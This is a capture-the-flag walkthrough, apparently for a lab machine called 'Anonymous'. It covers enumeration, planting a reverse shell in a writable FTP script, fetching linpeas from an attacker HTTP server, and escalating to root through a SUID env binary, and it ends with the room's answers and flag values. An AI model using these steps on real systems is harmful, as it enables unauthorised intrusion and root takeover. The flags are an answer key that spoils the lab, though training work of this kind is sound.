 # Anonymous - Medium

```shell
rustscan -a 10.10.181.97 --range 0-65535 --ulimit 5000 -- -sV

ftp 10.10.181.97
#anonymous login
#get all 3 files from /scripts directory

smbclient -L //10.10.181.97

smbclient //10.10.181.97/pics
#get both image files

#ftp with GUI
#to edit clean.sh
gftp 10.10.181.97
#edit clean.sh & add reverse-shell one-liner

#setup listener
nc -nvlp 5555

#after uploading edited clean.sh
#we get shell

python3 -c 'import pty;pty.spawn("/bin/bash")'
#upgrade shell

cat user.txt

#setup server on attacker machine
python3 -m http.server

#and transfer linpeas.sh to shell
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

find / -perm -u=s -type f 2>/dev/null

#exploit for env SUID from GTFObins
/usr/bin/env /bin/sh -p
#root shell

cat /root/root.txt
```

```markdown
Open ports & services:

  * 21 - ftp - vsftpd 2.0.8 or later
  * 22 - ssh - OpenSSH 7.6p1
  * 139 - netbios-ssn - Samba smbd
  * 445 - netbios-ssn - Samba smbd

As we do not have any webserver here, we can login to FTP; it allows anonymous login.

We can transfer all 3 files from /scripts in ftp.

There is a script called clean.sh which cleans temporary files and logs the action.

Now, to check the SMB shares, we can use smbclient on the machine.

Enumerating SMB, we can check the 'pics' share for interesting files; we have two image files.

Going back to the ftp share, we can see that we can edit clean.sh

We do so by adding a reverse-shell one-liner, and setting up a listener on our machine.

After uploading the edited clean.sh script with the help of gftp (ftp with GUI), we get a shell.

After reading user.txt, we can use linpeas.sh for checking privesc vectors.

linpeas.sh shows the groups sudo and lxd as privesc vectors; it also shows that /usr/bin/env has SUID bit set.

After confirming that /usr/bin/env has SUID bit set, we can follow exploit given on GTFObins.

This gives us root access.
```

1. Enumerate the machine. How many ports are open? - 4

2. What service is running on port 21? - ftp

3. What service is running on ports 139 and 445? - smb

4. There's a share on the user's computer. What's it called? - pics

5. user.txt - 90d6f992585815ff991e68748c414740

6. root.txt - 4d930091c31a622a7ed10f27999af363
